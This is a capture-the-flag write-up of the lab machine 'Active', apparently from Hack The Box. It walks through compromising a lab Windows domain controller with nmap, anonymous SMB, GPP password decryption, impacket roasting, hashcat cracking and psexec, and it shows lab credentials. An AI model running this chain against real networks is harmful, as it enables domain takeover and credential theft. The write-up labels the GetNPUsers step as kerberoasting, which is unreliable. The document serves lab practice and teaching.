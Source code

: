 ```yaml
---
title: "Active - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Active
![](https://kar0nx.github.io/assets/images/writeup/5837ac5e28291146a9f2a8a015540c28.png)
## Reconnaissance

IP: 10.10.10.100
## NMAP

```
nmap -T4 -p- -A 10.10.10.100
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 06:01 UTC
Nmap scan report for 10.10.10.100
Host is up (0.030s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 06:02:11Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/29%OT=53%CT=1%CU=36017%PV=Y%DS=2%DC=T%G=Y%TM=68B142A
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=
OS:7)SEQ(SP=101%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=108%GCD=1%ISR
OS:=109%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=108%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS
OS:=S%TS=7)SEQ(SP=109%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=7)OPS(O1=M552NW8
OS:ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M55
OS:2ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T
OS:=80%W=2000%O=M552NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T
OS:2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=8
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%
OS:Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-29T06:03:20
|_  start_date: 2025-08-29T05:58:52
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: -2s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.46 ms 10.10.14.1
2   29.95 ms 10.10.10.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.96 seconds
```

AD set without website, so I would start with SMB
## SMB

We can login with anonymous access and get files for future enumeration

```
smbclient \\\\10.10.10.100\\Replication
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829080825.png)

We can simply login to smbclient and type: (to get all files)

```
recurse ON
prompt OFF
mget *
```

I found Interesting file Groups.xml in Preferences\Groups it is GPP Credentials

```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829081547.png)

After opening Groups.xml and copy cpassword hash, simply use builtin tool gpp-decrypt to decrpyt password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082100.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082148.png)

active.htb\SVC_TGS  GPPstillStandingStrong2k18

## Gaining Access

We can confirm credentials using nxc:

```
nxc smb 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082450.png)

## Privilege Escalation

Whenever I come across an SVC user, I usually start by attempting a kerberoasting attack.
and this time it was no different

```
impacket-GetNPUsers active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082815.png)

Now using hashcat crack this hash.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829083037.png)

Administrator  Ticketmaster1968
Great now we have administrator access, can connect via psexec and grab both flags:

```
impacket-psexec active.htb/Administrator:'Ticketmaster1968'@10.10.10.100
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829083654.png)

```
type "C:\Users\SVC_TGS\Desktop\user.txt"
type "C:\Users\Administrator\Desktop\root.txt"
```
